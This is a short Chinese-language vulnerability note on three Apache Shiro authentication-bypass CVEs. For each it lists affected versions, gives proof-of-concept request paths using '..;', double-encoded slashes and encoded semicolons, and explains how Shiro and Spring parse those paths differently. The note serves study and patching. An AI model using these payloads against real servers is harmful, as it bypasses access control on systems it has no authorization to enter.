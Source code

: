 # CVE-2020-1957 & CVE-2020-11989 & CVE-2020-13933 权限绕过

## CVE-2020-1957

影响版本:

- Shiro <= 1.5.2 （Spring 框架中采用 Shiro 鉴权）

Poc：

```
/xxx/..;/admin/index
```

用户发起请求 `/xxx/..;/admin/index` => Shiro 处理之后返回 `/xxx/..` 通过校验 => SpringBoot 处理 `/xxx/..;/admin/index` 返回 `/admin/index`，成功访问到需要权限校验的资源。

## CVE-2020-11989

影响版本：

- Shiro < 1.5.3（Spring 框架中采用 Shiro 鉴权）

Poc：

```
/test/admin/a%25%32%66a
/;/test/admin/page
```

> 应用不能部署在根目录，也就是需要 context-path，server.servlet.context-path=/test，如果为根目录则 context-path 为空，就会被 CVE-2020-1957 的 patch 将 URL 格式化，值得注意的是若 Shiro 版本小于 1.5.2 的话那么该条件就不需要。

`/test/admin/a%25%32%66a` => Shiro 自动解码 `/test/admin/a%2fa` => decodeRequestString `/test/admin/a/a` 不符合 Ant 格式的 Shiro 拦截器 `map.put("/admin/*", "authc")` => Spring `@GetMapping("/admin/{name}")` 路由转发

## CVE-2020-13933

影响版本：

- Shiro < 1.6.0（Spring 框架中采用 Shiro 鉴权）

Poc：

```
/admin/%3bpage
```

`/admin/%3bpage` => Shiro getPathWithinApplication `/admin/;page`, removeSemicolon 根据 `;` 截断返回 uri `/admin/` => 无法命中拦截器 `map.put("/hello/*", "authc")` 成功绕过。

[@l1nk3r](https://mp.weixin.qq.com/s/E4eEReDhqEFPWN6AN-N10A)